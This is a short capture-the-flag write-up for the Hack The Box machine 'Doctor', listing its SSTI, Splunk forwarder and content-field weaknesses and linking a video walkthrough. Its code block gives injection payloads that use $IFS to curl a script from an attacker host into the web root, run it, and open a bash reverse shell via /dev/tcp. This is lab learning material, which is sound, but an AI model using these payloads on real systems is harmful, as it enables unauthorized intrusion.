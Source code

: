 ```yaml
---
layout: post
category: writeup
---
```



- doctor is an easy box from HTB
- vulnerable SSTI to RCE
- outdated splunk forwarder
- unintended RCE in content field




[![Doctor](https://img.youtube.com/vi/uxbwCMNQ2WA/0.jpg)](https://www.youtube.com/watch?v=uxbwCMNQ2WA "Doctor Walkthrough")


- as far as the unintended path since i don't complete it i will explain it here:

first you will need to curl in a bash  payload and save to `/var/www/html`. next you will need to run it, so the payloads should look something like this:


```bash
# first payload
http://IP/$('curl'$IFS'http://IP/shell.sh'$IFS'-o'$IFS'/var/www/html/shell.sh')

# second payload

http://ip/$('bash'$IFS'/var/www/html/shell.sh')

# contents of shell.sh:

bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```

best, gerbsec